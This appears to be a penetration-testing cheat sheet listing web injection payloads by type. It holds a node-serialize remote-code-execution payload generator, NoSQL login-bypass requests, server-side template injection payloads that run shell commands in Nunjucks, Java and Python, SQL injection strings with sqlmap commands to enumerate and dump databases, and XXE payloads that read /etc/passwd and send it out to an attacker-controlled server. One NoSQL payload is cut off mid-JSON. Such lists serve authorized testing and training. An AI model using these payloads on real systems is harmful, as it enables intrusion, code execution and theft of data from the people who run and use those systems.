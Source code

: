 # Types

- Code Injection
- Deserialization Injection
- NoSQL Injection
- Server-Side Template Injection
- SQL Injection
- XML External Entity

# Deserialization Injection

## JavaScript

Payload Generator
```
var y = {
	rce : function(){
		require('child_process').exec('ping -c 1 ipaddress /', function(error, stdout,	stderr) { console.log(stdout) });
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

# NoSQL Injection

Test Payload 1
`admin' || '' === '`

Test Payload 2
```
Content-Type: application/x-www-form-urlencoded
user=admin&password[$ne]=admin
```

Test Payload 3
```
Content-Type: application/json
{
	"user":"admin",
```

Test Payload 4
```
Content-Type: application/json
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

# Server-Side Template Injection

## Nunjucks (NodeJS)

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('payload')")()}}
```

## Java

RCE Payload 1
```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('payload')
.getInputStream())}
```

## Python

Test Payload 1
`{{1+1}}` (Should eval to 2)

RCE Payload 1
`{{config.__class__.__init__.__globals__['os'].popen('payload').read()}}`

RCE Payload 2
```
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("payload").read()}}
```

# SQL Injection

## Manual

Basic Error Test
`value'`

Confirm SQL Injection Possible (if error goes away)
Note: The last dash protects the trailing space, which can get removed otherwise
`value' -- -`

Circumvent Query Condition
`' or 1=1;-- -`

Determine Number of Columns in Select (add/remove numbers until no error)
`value' union select 1,2,3-- -`

## sqlmap

### Request

Save Request
`In burp, intercept the request, and right click > Save Item. (E.g.: request.req)`

Initial Tests (--batch accepts all defaults to prompts)
`sqlmap -r request.req --batch`

Check User Privs (E.g., FILE)
`sqlmap -r request.req --batch --privileges`

Enumerate databases
`sqlmap -r request.req --batch --dbs`

Get table names from dbname database
`sqlmap -r request.req --batch -D dbname --tables`

Dump the tblname table
`sqlmap -r request.req -D dbname -T tblname --dump`

### CLI Spec

Login, Username Param
`sqlmap -u http://url/endpoint?action=login --data="username=abc&password=abc" -p username [--level 5 --risk 3 to find more options] --batch`

JSON API
`sqlmap -u "protocol:address:port" --data '{"param_name": "*"}' --dbs [--threads 10 for speed] [--level 5 --risk 3 to find more options] --batch`

# XML External Entity

## LFI Method 1

```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<exampletag>&file;</exampletag>
```

## LFI Method 2

Create Payload
```
evil.dtd accessible via attacker web server:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://attacker/?p=%file;'>" >
```

Start web server

Inject Stager
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM 'http://attacker/evil.dtd'>%remote;%init;%trick;
]>
```

